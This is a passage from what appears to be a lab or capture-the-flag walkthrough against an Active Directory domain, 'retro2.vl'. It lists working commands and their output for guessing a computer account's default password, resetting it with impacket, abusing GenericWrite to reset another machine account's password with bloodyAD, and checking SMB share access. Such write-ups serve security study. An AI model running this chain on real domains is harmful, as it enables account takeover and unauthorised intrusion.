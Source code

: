Testing this theory with nxc, we find `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` on fs01, which is good!
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ nxc smb retro2.vl -u fs01$ -p fs01
SMB         10.129.173.72   445    BLN01            [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.129.173.72   445    BLN01            [-] retro2.vl\fs01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```
This means we have the correct password. To change the computers password, we can use impackets `changepasswd`.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ impacket-changepasswd retro2.vl/fs01\$:fs01@10.129.173.72 -newpass 'P@ssw0rd' -protocol rpc-samr
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro2.vl\fs01$
[*] Connecting to DCE/RPC as retro2.vl\fs01$
[*] Password was changed successfully.
```
## fs01$
With our new computer under our control, we can finally abuse the `genericWrite` over `admws01`.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ bloodyAD --host '10.129.173.72' -d 'retro2.vl' -u 'fs01$' -p 'P@ssw0rd' set password admws01$ P@ssw0rdADM
[+] Password changed successfully!
// if bloodAD does not work:
net rpc password 'admws01$' test123 -U retro2.vl/fs01$:test123 -S 10.129.173.72
```

We can test the admws01 password against smb to see if we have access.
```
┌──(tsunami㉿coffee)-[~/Documents/retroTwo]
└─$ smbmap -H 10.129.173.72 -u admws01$ -p P@ssw0rdADM

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.129.173.72:445       Name: retro2.vl                 Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections 
```